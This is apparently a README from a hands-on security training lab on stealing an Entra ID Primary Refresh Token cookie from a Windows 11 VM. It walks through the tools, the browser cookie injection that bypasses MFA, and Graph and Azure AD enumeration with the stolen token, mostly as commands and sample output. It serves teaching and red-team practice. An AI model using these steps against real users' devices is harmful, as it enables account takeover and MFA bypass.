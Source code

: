 # Lab 3 - Token Attacks
### Prepare a victim user with high privileges: 
1. RDP and login to the Win11 VM using the "***YOURUSER@boazwassergmail.onmicrosoft.com***" "victim" user that you've created in the previous lab.
2. run ```dsregcmd /status``` and make sure you see ```AzureAdPrt : YES```
    ![prt](prtexists.png)

#
# Attacks
From this point on you act as the adversary, without knowing the Entra / AD Creds, you have code execution as Administrator on the Win 11 VM 

#
## 1.Steal-the-PRT-Cookie 
Note: This method will bypass MFA only if the user has authenticated using MFA in its Windows (open Edge and sync the profile, go to the windows account settings on Windows and make sure it doesn't need to get verified)

#### Option 1: using RequestAADRefreshToken.exe tool
Use the MicrosoftAccountTokenProvider DLL to request a new PRT cookie:
Run RequestAADRefreshToken.exe from this folder, it will save the output on disk as well as print it to the console
Note: PRT Cookie can only be used once and its TTL is short
```
Requesting cookies for the following URIs: https://login.microsoftonline.com/
PID  : 37808

Uri: https://login.microsoftonline.com/
    Name      : x-ms-RefreshTokenCredential
    Flags     : 8256
    Data      : <...snip JWT...>; path=/; domain=login.microsoftonline.com; secure; httponly
    P3PHeader : CP="CAO DSP COR ADMa DEV CONo TELo CUR PSA PSD TAI IVDo OUR SAMi BUS DEM NAV STA UNI COM INT PHY ONL FIN PUR LOCi CNT"
```
#### Once PRT Cookie is in your possession:
1. Clear your browser cookies and go to https://login.microsoftonline.com/login.srf
2. F12 (Chrome dev tools) -> Application -> Cookies
3. Delete all cookies and then add one named `x-ms-RefreshTokenCredential` and set its value to the JSON Web Token(JWT) in the `Data` field that RequestAADRefreshToken.exe output
4. Refresh the page (or visit https://login.microsoftonline.com/login.srf again) and you'll be logged it

Reference: https://github.com/leechristensen/RequestAADRefreshToken, https://posts.specterops.io/requesting-azure-ad-request-tokens-on-azure-ad-joined-machines-for-browser-sso-2b0409caad30

#### Option 2: using AADInternals tool
Use BrowserCore.exe to request a new PRT cookie with the current existing authentication context:
```powershell
# Get the PRToken
$prtToken = Get-AADIntUserPRTToken

# Get an access token for AAD Graph API and save to cache
Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken

# if you get "Authorization code not received!" error, then make sure your device is logged in to the user properly(open Edge and sync the profile, go to the windows account settings on Windows and make sure it doesn't need to get verified)
```


### Recon using roadrecon tool
Use BrowserCore.exe to request a new PRT cookie with the current existing authentication context:
```powershell
# Get the nonce first
roadrecon auth --prt-init 
    # or 
    roadrecon auth --access-token eyJ0eXA... # AT for msgraph is needed
    # or
    roadrecon auth --prt-cookie <primary-refresh-token> -r msgraph -c "1950a258-227b-4e31-a9cf-717495945fc2"


# Get a new PRT Cookie
.\ROADtoken.exe <nonce> 

# using the new PRT Cookie, ask for an access token
roadtx browserprtauth --prt-cookie <cookie> -url

# look at the access token
type .roadtools_auth

# bonus: search for the client_id here to see to what it has asked At for: https://github.com/dirkjanm/ROADtools/blob/master/roadtx/roadtools/roadtx/firstpartyscopes.json

roadrecon gather

roadrecon gui
```

Continue your exploration...

```powershell
$prtToken = Get-AADIntUserPRTToken
$at = Get-AADIntAccessTokenForMSGraph -PRTToken $prtToken
$secureAt = ConvertTo-SecureString -String $at -AsPlainText -Force
Connect-MgGraph -AccessToken $secureAt
Get-MgUser

# Or via AAD Graph:
$client_id = "1b730954-1685-4b74-9bfd-dac224a7b894" 
$prtToken = Get-AADIntUserPRTToken
$tenantId = "YOUR_TENANT_ID"
$at = Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken
Connect-AzureAD -AadAccessToken $at -TenantId $tenantId -AccountId "1b730954-1685-4b74-9bfd-dac224a7b894" # "Azure Active Directory PowerShell" app id, see here for more https://github.com/dirkjanm/ROADtools/blob/master/roadtx/roadtools/roadtx/firstpartyscopes.json

Get-AzureADUser
```

